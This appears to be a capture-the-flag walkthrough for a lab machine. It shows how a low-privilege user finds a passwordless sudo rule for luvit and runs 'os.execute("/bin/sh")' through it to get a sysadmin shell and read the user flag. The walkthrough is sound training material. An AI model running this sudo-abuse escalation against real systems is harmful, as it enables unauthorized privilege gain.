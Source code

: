 The bash history below suggests that we can execute luvit as sysadmin.
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/webadmin/luvit privesc.lua
logout
```
Let's confirm by checking our sudo rights.
```
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
Yes, we can run luvit as sysadmin without a password. Sounds good.

**What is luvit?**

From its [homepage](https://luvit.io/), we learn that it is like Node.js but written in lua.

What's most important here is that:

>"This (luvit) can be used to run lua scripts as standalone servers, clients, or other tools."

Since we can run lua scripts as syadmin, we can abuse this right to obtain the privileges of sysadmin.

Using the help flag, we can learn more about the usage of luvit.

```
$ sudo -u sysadmin /home/sysadmin/luvit -h
Usage: /home/sysadmin/luvit [options] script.lua [arguments]

  Options:
    -h, --help          Print this help screen.
    -v, --version       Print the version.
    -e code_chunk       Evaluate code chunk and print result.
    -i, --interactive   Enter interactive repl after executing script.
    -n, --no-color      Disable colors.
    -c, --16-colors     Use simple ANSI colors
    -C, --256-colors    Use 256-mode ANSI colors
                        (Note, if no script is provided, a repl is run instead.)
```
With the -e flag, we can evaluate lua code. So the next step is to learn lua.

**Learning lua**

Google `how to execute system commads with lua`, and you will find the `os.execute` function.

Let's use that to get a shell with sysadmin's privileges.

```
$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
sh: turning off NDELAY mode
whoami
sysadmin
pwd
/var/www/html
cd ~
ls
luvit
user.txt
cat user.txt
```
And we find the user flag in sysadmin's home folder.
